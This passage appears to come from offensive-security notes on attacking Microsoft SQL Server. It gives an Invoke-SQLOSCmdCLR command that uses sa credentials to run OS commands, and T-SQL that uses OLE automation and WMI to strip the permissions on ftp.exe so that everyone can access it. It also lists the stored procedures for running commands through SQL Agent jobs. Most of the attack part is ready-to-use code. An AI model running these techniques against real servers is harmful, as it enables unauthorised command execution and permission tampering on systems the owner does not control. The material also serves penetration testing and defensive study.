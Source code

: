```
Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
```

Example: Sets SecurityDescriptor of ftp.exe to everyone:
```
-- Declare variables used to reference the objects
DECLARE @objLocator int,@objWmi int,@objPermiss int,@objFull int;

-- Create a WbemScripting.SWbemLocator object
EXEC sp_OACreate 'WbemScripting.SWbemLocator',@objLocator OUTPUT;

-- Use the SWbemLocator object's ConnectServer() method to connect to the
-- local WMI server. The connection will be to the 'root\cimv2' namespace
EXEC sp_OAMethod @objLocator,
'ConnectServer',@objWmi OUTPUT,'.','root\cimv2';

-- Retrieve an SWbemObject that represents the requested object
-- In this case, a Win32_LogicalFileSecuritySetting object for 'ftp.exe'
EXEC sp_OAMethod @objWmi,
'Get',@objPermiss OUTPUT,
'Win32_LogicalFileSecuritySetting.Path=''ftp.exe''';

-- Create an empty SecurityDescriptor
EXEC sp_OAMethod @objWmi,'Get',@objFull
OUTPUT,'Win32_SecurityDescriptor';

-- Set the SecurityDescriptor's ControlFlags property to
-- '4' (SE_DACL_PRESENT)
EXEC sp_OASetProperty @objFull,'ControlFlags',4;
-- Set the file security setting object's security descriptor to the
new

-- SecurityDescriptor object
EXEC sp_OAMethod @objPermiss,'SetSecurityDescriptor',NULL,@objFull;
```
> https://malwaremusings.com/2013/04/10/a-look-at-some-ms-sql-attacks-overview/

# Agent Jobs (CmdExec, PowerShell, ActiveX etc.)

* job can be scheduled, executed in response to alerts or by using `sp_start_job` stored procedure
* Needs `sysadmin` role to `create` a job.
* Non-sysadmin users with the `SQLAgentUserRole`, `SQLAgentReaderRole`, and `SQLAgentOperatorRole` fixed database roles in the `msdb` database can also be used.
* The execution takes place with privileges of the SQL Server Agent service account if a proxy account is not configured.

> https://docs.microsoft.com/en-us/sql/ssms/agent/sql-server-agent

## Steps
* `xp_startservice` - Start the SQL Server Agent service
* `sp_add_job` - Create Job
* `sp_add_jobstep` - Add job step
* `sp_start_job` - Run Job
* `sp_delete_job` - Delete Job
